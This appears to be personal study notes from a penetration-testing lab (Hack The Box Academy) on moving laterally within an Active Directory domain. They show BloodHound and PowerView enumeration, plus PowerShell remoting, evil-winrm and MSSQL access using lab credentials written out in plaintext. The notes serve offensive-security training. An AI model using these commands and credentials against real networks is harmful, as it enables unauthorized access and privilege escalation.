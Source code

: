 Login to Linux host from Windows host: 172.16.5.225
htb-student:HTB_@cademy_stdnt!

Once we gain a foothold in the domain, our goal shifts to moving laterally or vertically to gain access to more hosts, furthering our chances at domain admin.

**If we have local admin rights,** we may be able to use Pass-The-Hash

**What if we don't have local admin rights?** 
1. RDP?
2. Powershell remoting or WinRM access?
3. Do you have MSSQL Server access?

#### How do we enumerate the above?
Utilize **bloodhound** with these queries: 
1. CanRDP
	1. Even if a user does not have local admin anywhere, they may be able to RDP, and gather more key information.
	2. **Does the domain users group have local admin rights or execution rights (such as rdp or winrm) over one or more hosts?**
2. CanPSRemote
3. SQLAdmin

**Powerview** and **Built-in** tools can also be used.

--> See who is a part of the "Remote Desktop Users"
````powershell-session
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
````
![[Pasted image 20250618155736.png]]
All domain users can remote desktop!

### Utilize `Enter-PSSession`
```powershell-session
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force

$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)

Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```


## Utilize `evil-winrm`:
`evil-winrm -i <ip> -u <user>`


## Utilize `PowerUPSQL`
```powershell-session
cd .\PowerUpSQL\

Import-Module .\PowerUpSQL.ps1

Get-SQLInstanceDomain
```

This give info that `Dana Amundsen` can connect via MSSQL on this server
![[Pasted image 20250618161907.png]]
==Connect via `Get-SQLQuery`==
```powershell-session
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```
##### Or on Linux:
`mssqlclient.py inlanefreight.local/damundsen@172.16.5.150 -windows-auth`

